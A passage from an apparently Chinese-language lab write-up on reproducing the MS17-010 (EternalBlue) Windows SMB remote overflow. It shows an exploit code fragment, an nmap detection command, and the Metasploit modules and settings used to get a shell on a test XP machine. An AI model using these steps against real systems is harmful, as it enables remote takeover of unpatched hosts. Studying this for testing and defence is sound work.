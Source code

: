 十、最后断开链接触发命令执行：

        for sk in srvnetConn:
           sk.close()

### 漏洞复现

使用nmap探测系统版本，以及是否存在漏洞。

**nmap -O -p 445 \--script=smb-vuln-ms17-010.nse 192.168.75.133**

![1590482590269.png](./resource/(CVE-2017-0143........)【MS17-010】Windows远程溢出漏洞/media/rId29.png)

使用msf 进入ms17-010的利用模块。

xp系统的利用模块为 **exploit/windows/smb/ms17\_010\_psexec**

win7，server 2008
利用模块为**exploit/windows/smb/ms17\_010\_eternalblue**

win8，server 2012没测试。

测试环境系统为xp系统、进入利用模块

![1590482917641.png](./resource/(CVE-2017-0143........)【MS17-010】Windows远程溢出漏洞/media/rId30.png)

set rhost 设置目标ip、run

![1590483175111.png](./resource/(CVE-2017-0143........)【MS17-010】Windows远程溢出漏洞/media/rId31.png)

成功getshell
